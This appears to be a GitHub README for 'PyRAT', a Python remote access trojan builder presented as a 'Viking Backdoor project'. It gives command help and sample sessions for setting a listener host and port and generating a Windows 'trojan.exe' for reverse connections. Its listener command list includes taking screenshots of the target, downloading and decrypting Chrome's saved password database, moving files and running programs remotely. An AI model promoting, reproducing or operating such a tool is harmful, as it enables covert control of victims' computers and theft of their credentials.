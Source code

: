 # PyRAT

## Viking Backdoor project!

Generate exe files to use for reverse connection :) Edit

Coded By Black Viking

### vkng Help
	Commands:
	    set HOST           : Set HOST value.
	    set PORT           : Set PORT value.
	    settings           : Show HOST and PORT values.
	    start listener     : Start Listener.

	Example:
	    >>> PyRAT ==> set HOST 127.0.0.1
	    >>> PyRAT ==> set PORT 8000
	    >>> PyRAT ==> show listener
	[~] HOST: 127.0.0.1
	[~] PORT: 8000
	===========================================================
	    >>> PyRAT ==> start listener / start / run

	#---- Generating exe files(Windows)

	    >>> PyRAT ==> set HOST 127.0.0.1
	    >>> PyRAT ==> set PORT 8000
	    >>> PyRAT ==> show listener
	[~] HOST: 127.0.0.1
	[~] PORT: 8000
	===========================================================
	    >>> PyRAT ==> generate exec --name trojan.exe"""
	    
### Listener Help

	Commands:
		help()                  : Show this message.
		screenshot()            : Take a screenshot on client and send image file to server.
		chrome_db               : Download Chrome's password database and decrypt it.
		download                : Download files from client.
		upload                  : Upload files to client from server.
		message TEXT            : Show messages on target system.
		info()                  : Show target system's info.
		execute PROGRAM ARGS    : Execute programs in a new process.

	Execute programs on local machine:
		:dir ==> with ":"
		:cls
		:clear


# GUI 
### NOT WORKING NOW
![alt tag](http://i.hizliresim.com/vXkm74.png)
